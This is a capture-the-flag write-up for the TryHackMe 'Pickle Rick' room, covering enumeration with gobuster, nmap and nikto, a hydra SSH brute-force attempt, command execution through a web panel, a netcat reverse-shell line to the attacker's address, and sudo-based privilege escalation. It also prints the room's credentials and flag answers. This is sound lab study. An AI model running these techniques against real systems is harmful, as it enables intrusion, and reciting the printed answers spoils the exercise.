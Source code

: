 # thm-Pickle_Rick

https://tryhackme.com/room/picklerick

`IP=10.10.153.186`

## What is the first ingredient Rick needs?
 We can access the webserver at https://10-10-153-186.p.thmlabs.com/

### Page source

 On viewing the page source I get:
 ```html
   <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
 ```

### GoBuster

 Lets do some basic enumeratrion with gobuster

 ```bash
 gobuster  dir -u https://10-10-153-186.p.thmlabs.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee scan.txt 
 ```

 This returns
 ```
/assets               (Status: 301) [Size: 343] [--> http://10-10-153-186.p.thmlabs.com/assets/]
/server-status        (Status: 403) [Size: 315]     
 ```

 This Assets directory at first sight doesnt seem to have much interesting in it.

 And Server Status I need to be authenticated for.

 ### nmap
 
 Lets scan for what ports are available

 ```bash
 nmap -sV -Pn -vv -oA './nmap/nmap_scans' 10.10.88.88
 ```

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
```

Ok so it looks like we also have SSH open.

Lets try and bruteforce it using hydra

### hydra

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.153.186  ssh -vvv | tee hydra_ssh.log

```

This doesnt work - Looks like we need a ssh key to connect this way.

### gobuster

Back to the scanning - we know we are running a apache server so lets use the common
```bash
gobuster dir -u https://10-10-153-186.p.thmlabs.com/ -w /usr/share/wordlists/dirb/common.txt | tee scan.txt
```

This nets us some more results:
```
/.hta                 (Status: 403) [Size: 306]
/.htaccess            (Status: 403) [Size: 311]
/.htpasswd            (Status: 403) [Size: 311]
/assets               (Status: 301) [Size: 343] [--> http://10-10-153-186.p.thmlabs.com/assets/]
/index.html           (Status: 200) [Size: 1062]                                                
/robots.txt           (Status: 200) [Size: 17]                                                  
/server-status        (Status: 403) [Size: 315] 
```

Looking at robots.txt we have
`Wubbalubbadubdub`

### nikto

Using Nikto we do another scan:
```bash
nikto -h 10.10.153.186
```

This retrieves:
```
+ /login.php: Admin login page/section found.
```

An interesting login page. Lets have a look at it.

Trying the username `R1ckRul3s` and password `Wubbalubbadubdub` lets me in!

I now see a commands panel - and other tabs - but i'm denied from viewing them.

### Command Panel

On the command panel it looks like i can just execute any command e.g.
```bash
ls
```
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

That `Sup3rS3cretPickl3Ingred.txt` looks interesting - lets cat it out?

I get `Command disabled to make it hard for future PICKLEEEE RICCCKKKK.`

Looks like I cant do that :(

Lets try a reverse shell:
```bash
/bin/sh | nc 10.9.0.247 4444
```

It doesnt see to work either...

### Browser

It looks like i can just open the file through the browser..
https://10-10-153-186.p.thmlabs.com/Sup3rS3cretPickl3Ingred.txt

`mr. meeseek hair` - Thats the first ingredient

## Whats the second ingredient Rick needs?

Looking at clue.txt it says:
`Look around the file system for the other ingredient.`

So lets see if I can ls root?

When I do `ls /home/rick` it returns `second ingredients`

### less

cat was blocked from us - but it looks like we can still use `less` - so lets use this to print out the second ingredient:

```bash
less /home/rick/"second ingredients"
```

Results in:
```
1 jerry tear
```

## Whats the final ingredient Rick needs?

I think that for the final ingredient its likely we need propper ssh access? So I'm hunting for a ssh private key.

Can't find one..

Lets try and raise my access through this panel

Checking what sudo access this user has:
```bash
sudo -l
```

```
Matching Defaults entries for www-data on ip-10-10-153-186.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-153-186.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

`(ALL) NOPASSWD: ALL` means that we can access ANY command without a password... Thats all we need.

Lets view root:
```bash
sudo ls /root
```

```
3rd.txt
snap
```

Great so we can see the 3rd ingredient here... lets find a way to read it.

Using the same less command we get:
```bash
sudo less /root/3rd.txt
```

```
3rd ingredients: fleeb juice
```

And thats it! We have completed it!